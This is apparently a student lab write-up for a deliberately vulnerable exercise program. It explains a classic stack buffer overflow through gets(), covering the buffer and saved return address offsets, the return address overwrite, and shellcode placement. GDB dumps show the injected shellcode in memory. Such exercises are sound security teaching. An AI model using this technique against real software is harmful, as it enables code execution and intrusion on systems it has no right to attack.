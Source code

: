 # 01 - Remus Writeup

## Main Idea

The code is vulnerable because `gets(buf)` does not check the length of the input from the user. So we can inject the SHELLCODE right after the return address, and overwrite the return address with the address of the shellcode.  

## Magic Numbers

The address of buffer is `0xffffd698`, the RIP is `0xffffd6ac`, so the location of RIP is 20 bytes away from the start of the buffer (0xffffd6ac - 0xffffd698).

``` C++
(gdb) x/16x buf
0xffffd698:  0x00000000   0x00000000   0x00000000   0x00000000
0xffffd6a8:  0xffffd6b8   0x08049208   0x00000001   0x080491fd   
0xffffd6b8:  0xffffd73c   0x080493d6   0x00000001   0xffffd734   
0xffffd6c8:  0xffffd73c   0x0804a000   0x00000000   0x00000000
(gdb) i f
Stack level 0, frame at 0xffffd6b0:
 eip = 0x80491eb in orbit (orbit.c:5); saved eip = 0x8049208
 called by frame at 0xffffd6c0
 source language c.
 Arglist at 0xffffd6a8, args:
 Locals at 0xffffd6a8, Previous frame's sp is 0xffffd6b0
 Saved registers:
  ebp at 0xffffd6a8, eip at 0xffffd6ac
```

## Exploit Structure

Here is the stack diagram.

The exploit has three parts:

1. Write 20 dummy characters to overwrite `buf`, the compiler padding, and the sfp.
2. Overwrite the rip with the address of the shellcode. Since we are putting shellcode directly after the rip, we overwrite the rip with `0xffffd6b0` (`0xffffd6ac + 4`).
3. Finally, insert the shellcode directly after the rip.

This causes the `orbit` function to start executing the shellcode at address `0xffffd6b0` when it returns.

## Exploit GDB Output

When we ran GDB after inputting the malicious exploit string, we got the following output:

```C++
(gdb) x/16x buf
0xffffd698:  0x41414141   0x41414141   0x41414141   0x41414141
0xffffd6a8:  0x41414141   0xffffd6b0   0xcd58326a   0x89c38980
0xffffd6b8:  0x58476ac1   0xc03180cd   0x692d6850   0xe2896969
0xffffd6c8:  0x6d2b6850   0xe1896d6d   0x2f2f6850   0x2f686873
```
